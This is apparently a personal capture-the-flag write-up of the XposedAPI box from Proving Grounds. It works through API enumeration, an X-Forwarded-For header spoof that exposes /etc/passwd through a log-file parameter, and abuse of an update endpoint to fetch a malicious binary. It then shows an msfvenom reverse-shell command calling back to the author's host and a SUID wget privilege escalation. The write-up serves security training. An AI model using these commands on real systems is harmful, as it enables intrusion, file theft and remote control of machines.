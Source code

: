 ```yaml
---
layout: writeup
title: XposedAPI - Proving Grounds
date: 2024-07-20 13:32:20 +0300
description: A Writeup of the XposedAPI Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi]
---
```


![XposedAPI1.png](/assets/images/XposedAPI/XposedAP1.png){: .responsive-image}

Here's a writeup for XposedAPI, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). While this box has been rated Intermediate by OffSec, I'll note that the community has rated it to be Hard. I get started with an nmap scan to reveal:

```
PORT      STATE SERVICE
22/tcp    open  ssh
13337/tcp open  unknown
```

So we have two open ports, one for SSH and one for presumably an API service based on the name of the box. When we visit the port in the browser, we get this page:

![XposedAPI2.png](/assets/images/XposedAPI/XposedAPI2.png){: .responsive-image}

It seems to detail the types of API requests which are accepted by the server. We can make a GET request on `/, /version, /logs,` and `/restart` and a POST request on `/update`. We know that this page is the result of making a GET request to `/`, because it's `http://192.168.245.134:13337/`. When we do the same for `/version` in `curl` we get this response: `1.0.0b8f887f33975ead915f336f57f0657180`. Not a lot of information there, but maybe we can find an exploit or something. The result for logs says `WAF: Access Denied for this Host.` Too bad, it looks like we need a user for the POST request on `/update`. Trying a GET request for `/restart` shows this:

![XposedAPI3.png](/assets/images/XposedAPI/XposedAPI3.png){: .responsive-image}

Using this curl request: `curl -X POST -d '{"confirm":"true"}' http://192.168.245.134:13337/restart`, gives us a response of `Restart successful` but doesn't seem to change anything else on the other endpoints. Next we try a POST request to `/update` using this curl command:

`curl -H 'Content-Type: application/json' -d '{"user":"test", "url":"192.168.45.183/test.txt"}' -X POST http://192.168.245.134:13337/update`

This returns `Invalid username`. I try a few different common options, but I figure I can't do much here until I have a username, which I can't get from logs. I try to look for an existing exploit, but searching for "Remote Service Software" or "Remote Software Management API" only returns writeups for this very lab, as does searching the given version. 

At this point I attempted to brute force looking for usernames in Burp Repeater, but I got nowhere. Then I learned we can actually spoof where the request is coming from using a header called: `X-Forwarded-For`. Because the web page says that the API should only be exposed internally, we can assume that if we tell the server it came from localhost, we might actually be able to read the `/logs` page. 

We can craft such a curl request like this: `curl -X GET -H 'X-Forwarded-For: 127.0.0.1' http://192.168.245.134:13337/logs`, but it returns: `Error! No file specified. Use file=/path/to/log/file to access log files.`

So we add the file as a parameter like this: `curl -X GET -H 'X-Forwarded-For: 127.0.0.1' http://192.168.245.134:13337/logs?file=/etc/passwd` and we get a response. 

![XposedAPI4.png](/assets/images/XposedAPI/XposedAPI4.png){: .responsive-image}

At that point I take note that we have a user called `clumsyadmin` which we had been looking for before in the logs. I look around briefly for an SSH key or something like that, but I find nothing, and given that we only have two ports to work with anyway, I move back to the API. I run this curl command: `curl -X POST -H 'Content-Type: application/json' -d '{"user":"clumsyadmin", "url":"192.168.45.183/test.txt"}' http://192.168.245.134:13337/update` and get a response that says: `Update requested by clumsyadmin. Restart the software for changes to take effect.`. I restart using the previous steps, and then the test file downloads from my server. 

I generate a reverse shell using `msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.183 LPORT=80 -f elf -o reverse.elf`, because I already know that the target can access port 80 having downloaded the test file previously. Then I open a shell on port 80, and I restart the server. 

![XposedAPI5.png](/assets/images/XposedAPI/XposedAPI5.png){: .responsive-image}

And we have a shell. I check what we can run with sudo (nothing cause we don't have the password) and for any SUID binaries. Immediately `wget` sticks out, so I check [GTFObins](https://gtfobins.github.io/gtfobins/wget/#suid) and I run the commands for wget:

![XposedAPI6.png](/assets/images/XposedAPI/XposedAPI6.png){: .responsive-image}

And boom, we have root. 

Lessons learned: I did not know about the `X-Forwarded-For` header. Beyond that it was mostly practice with curl command syntax. The privesc was straightforward and took very little time. 